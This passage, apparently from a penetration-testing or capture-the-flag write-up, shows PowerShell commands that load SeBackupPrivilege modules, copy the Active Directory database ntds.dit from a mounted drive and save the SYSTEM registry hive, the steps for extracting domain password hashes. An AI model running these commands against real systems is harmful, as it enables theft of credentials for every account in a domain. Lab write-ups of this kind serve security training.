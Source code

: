 ![image-20200912191120964](xen.assets/image-20200912191120964.png)



- after mounting it successfully we need to import two modules

```
Import-Module SeBackupPrivilegeUtils.dll
Import-Module SeBackupPrivilegeCmdLets.dll
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\temp\ntds.dit
reg save HKLM\SYSTEM c:\temp\system
```
